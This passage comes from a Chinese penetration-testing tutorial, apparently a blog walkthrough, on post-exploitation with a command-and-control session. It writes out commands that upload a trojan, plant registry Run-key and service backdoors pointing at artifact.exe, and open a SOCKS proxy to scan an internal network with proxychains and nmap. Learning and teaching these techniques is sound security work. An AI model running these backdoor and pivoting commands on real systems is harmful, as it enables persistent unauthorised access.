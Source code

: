 上传木马文件，选择会话点击鼠标右键选择目标->文件管理<br />![](https://img-blog.csdnimg.cn/04a17cd3bc4e4a47b6b0ac92076edb8c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_10,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=wHnIC&originHeight=298&originWidth=377&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

选择木马文件进行上传<br />![](https://img-blog.csdnimg.cn/4826b33bc28c4db282861af553c94a6c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=tOIpq&originHeight=528&originWidth=807&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

设置为注册表后门
```
shell reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "keyname" /t REG_SZ /d "C:\Users\aa\Desktop\artifact.exe" /f
```

![](https://img-blog.csdnimg.cn/5724bde59d3048cf80ddc51efb6de374.png#crop=0&crop=0&crop=1&crop=1&id=cVK8J&originHeight=114&originWidth=1264&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
![](https://img-blog.csdnimg.cn/b1039bc032494a98a655bc4839776bdb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ujkzw&originHeight=257&originWidth=1004&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

也可以选择将exe设置为服务后门
```
shell sc create "exe" binpath= "C:\Users\abc\Desktop\artifact.exe"
```
![](https://img-blog.csdnimg.cn/db4e88f3b6584689981d6a6e90997cb0.png#crop=0&crop=0&crop=1&crop=1&id=CPO2t&originHeight=122&originWidth=762&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
![](https://img-blog.csdnimg.cn/7bda3f1e07b841ab918cb354073bb7e1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Jm5YZ&originHeight=524&originWidth=970&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 设置Socks代理
开启socks4a代理，通过代理进行内网渗透<br />开启socks，可以通过命令，也可以通过右键选择中转->SOCKS Server<br />![](https://img-blog.csdnimg.cn/bc60dc785db04e7da4b6ebeae91529de.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_11,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=W65Fk&originHeight=210&originWidth=399&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```
socks 12345
```
![](https://img-blog.csdnimg.cn/a3211d0875a94fba9f81282094dff6d0.png#crop=0&crop=0&crop=1&crop=1&id=Vood9&originHeight=85&originWidth=356&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

编辑`proxychains.conf` ，在文件末尾添加socks4代理服务器
```
vi /etc/proxychains.conf
```
![](https://img-blog.csdnimg.cn/997e71f83fb34ddfbbe0829fbb869065.png#crop=0&crop=0&crop=1&crop=1&id=ORXhX&originHeight=159&originWidth=363&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

使用proxychains代理扫描内网主机，socks4的代理，只能使用tcp协议，所以nmap使用的时候要使用-sT选择使用tcp协议，要使用-Pn不使用ICMP的ping确认主机存活
```
proxychains nmap -sT -Pn 10.10.10.0/24
```
![](https://img-blog.csdnimg.cn/fe2ba59468b34db3809173f43d4fd85b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=zI9h4&originHeight=536&originWidth=851&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以判断出是存在主机10.10.10.3的，对内网主机10.10.10.3进行端口扫描
```
proxychains nmap -sT -Pn 10.10.10.3
```
![](https://img-blog.csdnimg.cn/00ea372dd5554790a53072fd93bc3558.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=GOIME&originHeight=523&originWidth=916&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
